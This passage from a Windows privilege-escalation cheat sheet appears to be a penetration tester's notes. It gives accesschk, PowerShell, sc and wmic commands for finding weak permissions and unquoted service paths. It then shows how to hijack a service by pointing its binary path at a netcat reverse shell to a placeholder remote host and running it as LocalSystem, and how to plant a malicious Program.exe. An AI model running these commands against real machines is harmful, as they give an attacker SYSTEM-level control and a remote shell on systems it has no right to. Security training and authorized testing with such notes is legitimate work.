 *   **Find all weak folder permissions per drive:**

    ```cmd
    accesschk.exe /accepteula -uwdqs Users c:\
    accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\
    ```
*   **Find all weak file permissions per drive:**

    ```cmd
    accesschk.exe /accepteula -uwsv "Everyone" "C:\Program Files"
    accesschk.exe /accepteula -uwqs Users c:\*.*
    accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
    ```
*   **Powershell equivalent:**

    ```powershell
    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone"}
    ```

**Binary Planting / Hijacking Service Binary**

*   [Hacktricks Link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)

    ```cmd
    sc qc [service_name]     // for service properties
    sc query [service_name]  // for service status

    # Check permissions on the binary path with icacls
    # If writable, replace the original binary with a malicious one.

    # Modify service binary path
    sc config [service_name] binpath= "C:\Temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
    sc config [service_name] obj= ".\LocalSystem" password= ""

    # Start the service
    net start [service_name]
    ```

**Unquoted Service Path Privilege Escalation**

*   [Pentest.blog Link](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

    ```cmd
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
    ```

    If a path is unquoted and has spaces (e.g., `C:\Program Files\Some App\service.exe`), you can place a malicious executable at `C:\Program.exe`.
